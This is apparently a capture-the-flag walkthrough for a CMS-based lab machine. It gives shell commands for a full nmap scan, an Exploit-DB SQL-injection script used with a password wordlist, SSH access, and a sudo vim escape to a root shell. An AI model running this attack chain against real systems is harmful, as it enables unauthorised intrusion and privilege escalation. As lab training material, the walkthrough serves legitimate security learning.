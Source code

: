 
---

## 🔎 Enumeration

First, perform a full port scan to identify open services:

```bash
nmap -p- -sV -T4 0.0.0.0
```

- `-p-` → scan all 65,535 ports
    
- `-sV` → detect service versions
    
- `-T4` → faster scan, but still reliable
    

---

## 🎯 Exploitation

After identifying the service, use the known exploit:

- Reference: [Exploit-DB #46635](https://www.exploit-db.com/exploits/46635)
    

```bash
python exploit.py --url http://0.0.0.0/simple/admin --crack --wordlist /usr/share/wordlists/rockyou.txt
```

- `--url` → target web application
    
- `--crack` → attempt to brute-force credentials
    
- `--wordlist` → supply RockYou dictionary
    

⚠️ Note: Exploit reliability may vary. If it fails, verify the URL path, check server response, and consider adjusting payloads.

---

## 🔑 Gaining Access

Once credentials are obtained, log in via SSH:

```bash
ssh user@0.0.0.0 -p 2222
```

---

## 🛡️ Privilege Escalation

Check sudo privileges:

```bash
sudo -l
```

If `vim` is allowed with elevated rights, escalate to root:

```bash
sudo vim -c ':!/bin/bash'
```

---

## 🏆 Capture the Flags

Finally, retrieve proof-of-access files:

```bash
cat /home/user/user.txt
cat /root/root.txt
```

---

✅ This is now a **clear step-by-step attack chain**:

1. Recon → 2. Exploit → 3. Initial access → 4. PrivEsc → 5. Capture flags
    

---
